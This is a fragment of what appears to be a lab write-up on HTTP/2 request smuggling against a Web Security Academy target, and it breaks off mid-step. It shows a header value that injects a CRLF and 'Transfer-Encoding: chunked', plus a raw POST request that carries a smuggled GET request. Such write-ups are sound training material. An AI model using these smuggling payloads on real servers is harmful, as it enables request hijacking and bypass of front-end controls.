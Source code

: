 **Step2:**

Add a new header anyname:anyvalue\r\nTransfer-Encoding: chunked

<img src="images/image1.png" alt="third" width="500">

Here after add a newheader but the problem is burp syntax interpretation which is fine.

Before add newheader
```
POST / HTTP/2
Host: 0a5300e8049259638113642900ab006a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

0

GET /Hello HTTP/1.1
hello: world
```

After add newheader i.e

